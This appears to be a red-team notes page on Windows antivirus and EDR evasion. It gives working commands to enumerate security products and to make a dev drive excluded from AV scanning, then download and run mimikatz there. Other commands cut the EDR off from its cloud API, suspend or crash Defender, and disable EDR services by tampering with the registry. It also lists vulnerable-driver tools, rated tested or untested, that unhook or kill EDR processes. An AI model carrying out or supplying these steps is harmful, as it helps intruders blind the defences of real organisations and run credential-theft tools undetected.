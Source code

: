 ```yaml
---
title: Windows Evasion
---
```


[[notes/mitre-attack/defense-evasion]] tricks for [[notes/windows/index]].

List installed endpoint protection solutions.

=== "builtin"
    ~~~ bat
    wmic.exe /node:localhost /namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get DisplayName
    ~~~

Detect installed endpoint protections by enumerating known named pipes and services remotely as unprivileged user.

=== "[[notes/tools/servicedetector]]"
    ~~~ bash
    servicedetector -k -no-pass ws01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb ws01.corp.local -u jdoe -p 'passw0rd' -M enum_av
    ~~~

    [source](https://twitter.com/mpgn_x64/status/1628720939532750849)

Find excluded processes by checking if they have the userland hooking DLL of the endpoint protection loaded with [CheckDLLs.ps1](https://gist.github.com/dadevel/e89e7089a2e01446caf22bbef6738e94).
An alternate tool for this is [Bin-Finder](https://github.com/Kudaes/Bin-Finder).

~~~ powershell
Import-Module ./CheckDLLs.ps1
Get-Process | Check-DLLs -ModuleNames 'InProcessClient.dll', 'InProcessClient64.dll', 'MinProcessClient.dll', 'MinProcessClient64.dll' | ?{!$_.'InProcessClient.dll' -and !$_.'InProcessClient64.dll'} | ft -auto
~~~

Create a dev drive as local admin on Windows 11 (untested, [source](https://twitter.com/0gtweet/status/1720532496847167784)).

~~~ bat
fsutil.exe devdrv enable
fsutil.exe devdrv enable /disallowav
echo create vdisk file="c:\temp\mimi.vhdx" maximum=10240 type=expandable >> .\diskpart.txt
echo select vdisk file="c:\temp\mimi.vhdx" >> .\diskpart.txt
echo attach vdisk >> .\diskpart.txt
echo create partition primary >> .\diskpart.txt
echo assign letter=v >> .\diskpart.txt
echo exit >> .\diskpart.txt
diskpart.exe /s .\diskpart.txt
del .\diskpart.txt
format.exe v: /devdrv /q /y
fsutil.exe devdrv clearFiltersAllowed v:
fsutil.exe devdrv trust v:
fsutil.exe devdrv query v:
curl.exe -o v:\mimi.exe https://.../mimikatz.exe
v:\mimi.exe
~~~

Untested tools:

- [TimeException](https://github.com/bananabr/TimeException), detect excluded folders trough timing discrepancies
- [Forensia](https://github.com/PaulNorman01/Forensia), purge various forensic artifacts

References:

- [Red Teaming in the EDR age - Wild West Hackin' Fest 2018](https://www.youtube.com/watch?v=l8nkXCOYQC4)
- [docs.google.com/spreadsheets/u/0/d/1ZMFrD6F6tvPtf_8McC-kWrNBBec_6Si3NW6AoWf3Kbg/htmlview](https://docs.google.com/spreadsheets/u/0/d/1ZMFrD6F6tvPtf_8McC-kWrNBBec_6Si3NW6AoWf3Kbg/htmlview), telemetry sources of common EDRs
- [twitter.com/Cyb3rMonk/status/1648743976407531525](https://twitter.com/Cyb3rMonk/status/1648743976407531525), EDRs cant log every event due to shear volume
- [twitter.com/cyb3rops/status/1709583944763556108](https://twitter.com/cyb3rops/status/1709583944763556108), `C:\ProgramData\Microsoft\Windows Defender Advanced Threat Protection` is often excluded, because Microsoft stores shady scripts there
- [Microsoft Anti-Virus exclusion recommendations by application](http://web.archive.org/web/20230101000458/https://social.technet.microsoft.com/wiki/contents/articles/953.microsoft-anti-virus-exclusion-list.aspx)

# Blinding EDRs

Stop the EDR from reporting to its cloud API as local admin ([source](https://twitter.com/Z3rO_C00L/status/1570837519453007872)).

~~~ bat
echo 0.0.0.0 api.vendor.com >> c:\windows\system32\drivers\etc\hosts
~~~

Alternatively you can block outgoing network connections for the EDR processes with the Windows firewall.

EDRs use [[notes/windows/ppl|PPL]] to prevent their processes from being stopped, but they still can be suspended ([source](http://web.archive.org/web/20230325071705/https://www.trustedsec.com/blog/disabling-av-with-process-suspension/)).
Most AVs and EDRs block this attack with their kernel callbacks.
For example with [pssuspend](https://learn.microsoft.com/en-us/sysinternals/downloads/pssuspend) from SysInternals or [sus.ps1](https://github.com/0xv1n/proc-suspend/blob/main/sus.ps1) ([source](https://twitter.com/0gtweet/status/1638069413717975046)).

~~~ bat
.\pssuspend.exe msmpeng.exe
~~~

Writing the following registry value causes the target process to crash shortly after startup ([source](https://web.archive.org/web/20230507150230/https://www.trendmicro.com/en_us/research/23/e/attack-on-security-titans-earth-longzhi-returns-with-new-tricks.html)).
This is blocked by most AVs and EDRs.

~~~
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\MsMpEng.exe\MinimumStackCommitInBytes = 0x88888888
~~~

Disable EDR services trough registry export and reimport ([source](https://twitter.com/0gtweet/status/1684907177117454336)).
This works against some AVs and maybe even against some EDRs.

- open `regedit.exe` as administrator
- export `HKLM\SYSTEM\CurrentControlSet` to a `.save` file (not `.reg`)
- note executable names of EDR services and drivers
- edit the `.save` file with a hex editor (e.g. [HxD](https://mh-nexus.de/en/downloads.php?product=HxD20)) and replace a character in the executable path of all EDR services
- create the key `HKLM\SYSTEM\ControlSet002`
- import the `.save` file under that key
- set the following values under `HKLM\SYSTEM\Select`
    - `Current` = `2`
    - `Default` = `2`
    - `LastKnownGood` = `2`
- reboot

Untested tools:

- [KDU](https://github.com/hfiref0x/KDU), exploit various vulnerable drivers to hijack protected processes or load unsigned drivers
- [OffensivePH](https://github.com/RedSection/OffensivePH), uses old Process Hacker driver to inject shellcode into PPL processes
- [TokenUniverse](https://github.com/diversenok/TokenUniverse), GUI to tamper with Windows tokens and many other objects
- [NerfToken-Go](https://github.com/tnpitsecurity/nerftoken-go), modify process tokens of [[notes/windows/ppl|PPL]] processes to remove their privileges as system ([source](https://www.elastic.co/security-labs/sandboxing-antimalware-products)), patched in Windows 11 22H2 ([source](https://twitter.com/yarden_shafir/status/1628049645896183809))
- [Kernel-Cactus](https://github.com/spikysabra/kernel-cactus), didn't compile
- [RIPPL](https://github.com/last-byte/rippl/), uses technique from [PPLdump](https://github.com/itm4n/PPLdump) to tamper with protected processes, patched since Windows 10 21H2 Build 19044.1826 ([source](https://itm4n.github.io/the-end-of-ppldump/)), but EDR tamper methods like pausing instead of killing EDR processes are still interesting

References:

- [Old certificate, new signature: Open-source tools forge signature timestamps on Windows drivers](http://web.archive.org/web/20230712010119/https://blog.talosintelligence.com/old-certificate-new-signature/)
- [Attacking an EDR - Part 2](http://web.archive.org/web/20230914130817/https://her0ness.github.io/2023-09-14-Attacking-an-EDR-Part-2/), disable EDRs tamper protection by intercepting an API response with Burp
- [Reverse Engineering Windows Defender's Antivirus Emulator - Black Hat 2018](https://www.youtube.com/watch?v=wDNQ-8aWLO0)
- [Attacking an EDR - Part 1](http://web.archive.org/web/20230804174921/https://riccardoancarani.github.io/2023-08-03-attacking-an-edr-part-1/), EDR whitelisted own helper process, but did not protect it, detected because process didn't had the EDRs hooking DLL loaded, exploited with PPID spoofing
- [Dissecting the Windows Defender Driver - WdFilter (Part 1)](http://web.archive.org/web/20230204015856/https://n4r1b.com/posts/2020/01/dissecting-the-windows-defender-driver-wdfilter-part-1/)
- [Attacking on Behalf of Defense: DLL Sideloading EDR Binaries](http://web.archive.org/web/20230627204035/https://mansk1es.gitbook.io/edr-binary-abuse/)
- [Operators, EDR Sensors, and OODA Loops](http://web.archive.org/web/20230802194355/https://jackson_t.gitlab.io/ooda-loops.html)
- [Bypass Protected Process Light using Process Explorer](http://web.archive.org/web/20230101000147/https://waawaa.github.io/en/Bypass-PPL-Using-Process-Explorer/)
- [Bypass PPL from user-mode using a vulnerable driver](https://www.unknowncheats.me/forum/anti-cheat-bypass/262766-bypass-ppl-protected-process-light-user-mode-using-vulnerable-driver.html)

# EDR Kernel Unhooking

Evade EDRs by loading a signed but dangerous dangerous driver to tamper with kernel callbacks.

Tested tools:

- [EDRSandblast-GodFault](https://github.com/gabriellandau/EDRSandblast-GodFault), removes kernel hooks without a kernel driver trough [GodFault](https://github.com/gabriellandau/PPLFault#godfault) ([source](http://web.archive.org/web/20230901211135/https://www.elastic.co/security-labs/forget-vulnerable-drivers-admin-is-all-you-need))
- [EDRSandblast](https://github.com/wavestone-cdt/edrsandblast/tree/defcon30release), uses `RTCore64.sys` or `DBUtils_2_3.sys`, pain to setup, but works well
- [CheekyBlinder](https://github.com/br-sn/cheekyblinder), less features then EDRSandblast

Untested tools:

- [EDRSnowblast](https://github.com/Orange-Cyberdefense/EDRSnowblast), based on EDRSandblast, supports `GDRV.sys`, can load unsigned drivers, can block communication between minifilter driver and userland ([source](http://web.archive.org/web/20231001131310/https://sensepost.com/blog/2023/filter-mute-operation-investigating-edr-internal-communication/))
- [EchoDrv](https://github.com/YOLOP0wn/EchoDrv), remove kernel hooks trough `echo_driver.sys`

References:

- [Silencing the EDR - How to disable process, threads and image-loading detection callbacks](http://web.archive.org/web/20221111123625/https://www.matteomalvica.com/blog/2020/07/15/silencing-the-edr/)
- [Driver-based attacks: Past and present](http://web.archive.org/web/20230101000144/https://www.rapid7.com/blog/post/2021/12/13/driver-based-attacks-past-and-present/)
- [Removing kernel callbacks using signed drivers](http://web.archive.org/web/20221002160329/https://br-sn.github.io/Removing-Kernel-Callbacks-Using-Signed-Drivers/)

# Killing EDRs

Tested tools:

- [Terminator](https://github.com/ZeroMemoryEx/Terminator), uses `zam64.sys` to kill processes
- [Backstab](https://github.com/yaxser/backstab), uses Process Explorer driver, worked only partially
- [Breakcyserver](https://github.com/waawaa/breakcyserver), uses Process Explorer driver, didn't work

Untested tools:

- [GhostDriver](https://github.com/BlackSnufkin/GhostDriver), in Rust, uses `rentdrv.sys`
- [LOLDrivers Finder](https://github.com/xalicex/LOLDrivers_finder/blob/main/finder.py), search LolDrivers for drivers that can kill processes
- [mhydeath](https://github.com/zer0condition/mhydeath), uses `mhyprotect.sys`
- [NVDrv](https://github.com/zer0condition/NVDrv), uses `nvoclock.sys` to read arbitrary memory
- [Ryzen Master Exploit](https://github.com/tijme/amd-ryzen-master-driver-v17-exploit/), BOF for exploiting AMD's Ryzen Master Driver v17
- [Killers](https://github.com/xalicex/Killers), uses driver from Avast or IOBit Malware Fighter
- [Blackout](https://github.com/ZeroMemoryEx/Blackout), uses GMER driver

References:

- [ThreadSleeper: Suspending Threads via GMER64 Driver](http://web.archive.org/web/20230719203839/https://www.binarydefense.com/resources/blog/threadsleeper-suspending-threads-via-gmer64-driver/), don't kill EDR processes, instead suspend all its threads
- [twitter.com/malmoeb/status/1551449530729730049](https://twitter.com/malmoeb/status/1551449530729730049), thread about vulnerable Gigabyte `gdrv.sys` driver
- [twitter.com/wdormann/status/1663741856461598724](https://twitter.com/wdormann/status/1663741856461598724), thread about GMER driver and `truesight.sys`

